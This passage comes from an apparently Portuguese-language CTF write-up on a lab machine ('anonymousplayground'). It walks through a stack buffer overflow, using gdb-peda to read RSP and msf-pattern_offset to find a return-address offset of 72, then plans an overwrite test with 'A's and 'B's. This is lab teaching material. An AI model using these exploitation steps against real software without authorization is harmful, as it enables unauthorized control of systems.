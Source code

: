 <img src="/thm/thm-anonymousplayground-11.png">

O comanro `r`, roda o programa, e quando ele solicitar o buffer, enviamos nosso pattern.
O programa vai parar como esperado, para encontrarmos o valor dentro de `RSP`, podemos usar o comando `x\gx $rsp`.

```bash
gdb-peda$ x/gx $rsp
0x7fffffffdf68: 0x6341356341346341
```
Temos como resposta o valor `0x6341356341346341`, vamos pesquisar este valor com o `msf-pattern_offset`.

```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ msf-pattern_offset -l 100 -q 6341356341346341
[*] Exact match at offset 72
```

Encontramos o offset de 72, o que segnifica que se enviarmos um buffer de 72 caracteres, os próximos 6 vão preencher o endereço de retorno.
Podemos fazer um teste, enviando um buffer de 72 As e + 6 Bs, e verificar se o RIP foi preenchido pelos B.
